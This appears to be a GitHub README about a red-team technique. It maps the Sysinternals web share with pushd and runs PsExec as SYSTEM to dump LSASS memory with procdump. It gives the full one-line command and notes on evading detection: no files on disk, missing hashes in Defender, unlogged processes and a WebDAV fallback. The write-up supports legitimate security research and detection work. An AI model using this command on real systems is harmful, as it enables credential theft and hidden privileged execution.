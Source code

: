 # pushdTTPIdea

Messing aroung with a TTP idea I had during a red team engagement:  

pushd \\live.sysinternals.com\tools && psexec -s -i -d procdump.exe -accepteula -ma lsass.exe test.txt  

    • Creating a temporary share by UNC path
    • Invoke PsExec -s to gain SYSTEM (psexec does not live on my device)
    • Run further TTP (in this example, just a basic Lsass dump with procdump on src host but of course this can be RCE)


    ![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/bd13b77d-5d27-429a-a359-7dfec7abf8b4)
    
The Sysinternal binaries don't seem to exist on my disk but rather in memory  

In Pslist from volatility:  

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/be317d68-30f5-4db9-9b26-9c5be70ef8d2)


PsExec does not seem to exist on my Disk if I try to filescan from volatility.  

On Defender Side:

Comparision of psexec paths – Note missing hash:  

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/a043b198-a2b1-4751-bb96-838c720b63bd)

Procs within the pushd not logged – Note path of “Y” was randomly chosen (by default its Z but I tried this twice):  
![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/f4f40c8e-70b3-41fb-a3a8-8e69fdbe7b4d)

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/be7351f5-422f-4479-b658-4640dbb328c8)


On network Side:  

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/195f9bcf-bec1-4945-bdb3-d92dbe4f74b2)

Looks like fallback to WebDav over Port 80 rather than SMB

Just to validate before SMB memes:

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/0a786a2e-4bf1-4ba0-bb2c-349a5ab5aad3)

